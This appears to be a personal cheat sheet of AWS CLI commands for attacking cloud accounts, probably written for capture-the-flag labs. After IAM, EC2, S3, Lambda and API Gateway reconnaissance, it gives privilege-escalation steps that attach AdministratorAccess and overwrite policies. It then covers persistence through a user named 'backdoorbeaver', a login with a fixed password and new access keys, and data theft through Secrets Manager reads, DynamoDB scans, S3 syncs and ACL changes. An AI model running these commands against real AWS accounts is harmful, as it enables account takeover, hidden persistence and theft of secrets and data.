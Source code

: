 #caller
aws sts get-caller-identity

#assume-Role
aws sts assume-role --role-arn arn:aws:iam::666666666666:role/ad-example --role-session-name ad-example

#list, show stuff
aws ec2 describe-instances
aws s3 ls
aws s3api list-buckets
aws iam list-users
aws iam list-roles
aws iam list-groups-for-user --user-name user-example
aws iam list-group-policies --group-name Admins

#list (attached) policys
aws iam list-attached-role-policies --role-name ad-example
aws iam list-attached-user-policies --user-name user-example
aws iam list-user-policies --user-name user-example


#get policy
aws iam get-policy --policy-arn ...
aws iam get-user-policy --user-name user-example --policy-name ...
aws iam get-policy-version --policy-arn ... --version-id v1
aws iam get-role-policy --role-name ... --policy-name ...

#attach a policy
aws iam attach-user-policy --user-name user-example --policy-arn ...
aws iam attach-user-policy --user-name user-example --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam attach-group-policy --group-name developer --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

#create admin policy
aws iam create-policy-version --policy-arn arn:aws:iam::666666666666:policy/Print --policy-document file:///.../newAdminPolicy.json --set-as-default
aws iam put-group-policy --group-name Admins --policy-document file:///.../newAdminPolicy.json --policy-name AdminRoot
aws iam put-role-policy --role-name developerlambda --policy-name adminnow --policy-document file:///.../newAdminPolicy.json      


#role Policys
aws iam list-role-policies --role-name admin
aws iam get-role-policy --role-name admin --policy-name AddUser


#search for adminstuff
aws iam list-policies | grep 'AdministratorAccess'  


#add user to group, create user, change login
aws iam add-user-to-group --group-name developer --user-name kevin
aws iam create-login-profile --user-name mandy --password compliance123! --no-password-reset-required
aws iam create-user --user-name backdoorbeaver
aws iam create-access-key --user-name Bob


#EC2, list, deploy
aws ec2 describe-subnets
aws ec2 describe-security-groups
aws iam list-instance-profiles

aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'

aws ec2 run-instances --subnet-id subnet-.... --image-id ami-... --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-..."

#dynamadb
aws dynamodb scan --table-name secrettable-233223 --region us-east-1

#secret
aws secretsmanager get-secret-value --secret-id ...--region

#s3
aws s3 ls
aws s3api list-buckets
aws s3 sync s3://user-resources-12jljlaj3434ljalsjf/ ./
aws s3api list-objects --bucket ...
aws s3 --no-sign-request --region ap-southeast-1 ls s3://static-resources-example
aws s3api get-bucket-policy --bucket ... --output text | python -m json.tool
aws s3api put-bucket-policy --bucket ... --policy file://policy.json
aws s3api get-bucket-acl --bucket ... > acl.json
aws s3api put-bucket-acl --bucket --access-control-policy file://acl.json
aws s3api get-object-acl --bucket ... --key flag > object.json
aws s3api put-object-acl --bucket ... --key flag --access-control-policy file://object.json


#API
aws apigateway get-account
aws apigateway get-rest-apis
aws apigateway get-api-keys
aws apigateway get-api-key --api-key ... --include-value
aws apigateway get-ressources --rest-api-id ...
aws apigateway get-method --rest-api-id ... --http-method GET --ressource-id ...

#lambda
aws lambda get-function --function-name DynamoFunction  
aws lambda list-functions
aws lambda invoke --function-name evil-function output.txt
